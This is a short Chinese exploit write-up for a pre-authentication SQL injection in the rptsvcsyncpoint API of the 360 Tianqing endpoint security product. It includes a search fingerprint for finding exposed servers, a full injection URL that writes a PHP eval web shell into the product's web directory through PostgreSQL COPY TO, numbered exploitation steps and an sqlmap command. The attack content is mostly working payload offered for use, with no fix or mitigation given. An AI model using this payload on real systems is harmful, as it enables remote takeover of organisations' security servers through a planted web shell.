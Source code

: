 # 

# 360天擎 rptsvcsyncpoint 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## 网络测绘

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```



使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```



![image-20220209200650958](./images/202202092006296.png)



